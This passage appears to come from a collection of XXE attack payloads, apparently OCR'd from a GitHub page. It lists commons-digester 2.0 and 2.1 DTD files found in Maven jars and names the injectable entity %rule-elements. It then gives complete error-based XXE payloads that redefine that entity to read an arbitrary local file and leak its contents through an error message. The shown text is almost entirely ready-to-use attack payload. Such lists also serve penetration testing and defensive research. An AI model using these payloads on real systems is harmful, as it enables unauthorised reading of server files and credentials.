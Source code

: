 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/commons-digester/commons-digester/2.0/commons-digester-2.0.jar!/org/apache/commons/digester/xmlrules/digester-rules.dtd`

**Injectable entity:** `%rule-elements`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/commons-digester/commons-digester/2.0/commons-digester-2.0.jar!/org/apache/commons/digester/xmlrules/digester-rules.dtd">

    <!ENTITY % rule-elements 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/commons-digester/commons-digester/2.1/commons-digester-2.1.jar!/org/apache/commons/digester/xmlrules/digester-rules.dtd`

**Injectable entity:** `%rule-elements`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/commons-digester/commons-digester/2.1/commons-digester-2.1.jar!/org/apache/commons/digester/xmlrules/digester-rules.dtd">

    <!ENTITY % rule-elements 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```
